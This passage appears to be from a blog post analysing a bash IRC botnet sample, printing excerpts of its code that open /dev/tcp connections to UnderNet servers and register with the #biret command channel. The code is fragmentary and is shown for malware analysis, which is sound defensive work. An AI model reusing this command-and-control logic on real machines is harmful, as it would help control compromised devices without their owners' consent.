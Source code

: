 
#### Mapping IRC Servers

```bash
...
while [ true ]; do

  # Servers
  arr[0]="ix1.undernet.org"
  arr[1]="ix2.undernet.org"
  arr[2]="Ashburn.Va.Us.UnderNet.org"
  arr[3]="Bucharest.RO.EU.Undernet.Org"
  arr[4]="Budapest.HU.EU.UnderNet.org"
  arr[5]="Chicago.IL.US.Undernet.org"

  # Chooses a pseudorandom server
  rand=$[$RANDOM % 6]
  svr=${arr[$rand]}

  # Check if an established TCP connection exists between host and server
  eval 'exec 3<>/dev/tcp/$svr/6667;' #  Also, set new FD (3)
  if [[ ! "$?" -eq 0 ]] ; then
      continue # Skip back to the top of the loop if a connection already exists
      # NO `sleep` statement here... will check endlessly as fast as possible; silly
  fi
  ...
```

It appears that this bot uses the [UnderNet](https://www.undernet.org/) IRC system to establish connections with. Let's take a look at UnderNet— perhaps we can find IRC channels (specifically `#biret`) related to this malware. For reference, `#biret` is the channel that this script initiates connections to.

![Screenshot of UnderNet IRC channel list](/posts/fishing-for-malware-4-1.png)

*Sigh*. IRC... A relic that is perhaps best forgotten in some aspects. Two other users, which I have deliberately not shown here, are active at the time of writing this post in `#biret`. *In fact, one of the active users has the name of a compromised target device!*

#### Main Logic

```bash
...
  echo $NICK

  eval 'printf "NICK $NICK\r\n" >&3;'
  if [[ ! "$?" -eq 0 ]] ; then
      continue
  fi
  eval 'printf "USER user 8 * :IRC hi\r\n" >&3;'
  if [[ ! "$?" -eq 0 ]] ; then
    continue
  fi

  # Main loop
  while [ true ]; do
    eval "read msg_in <&3;" // Examine the contents of msg_in recieved from the TCP host-IRC connection

    # If msg_in is null, quit the main loop
    if [[ ! "$?" -eq 0 ]] ; then
      break
    fi

    # On IRC in = 'PING', respond 'PONG' via IRC
    # Presumably to test connectivity?
```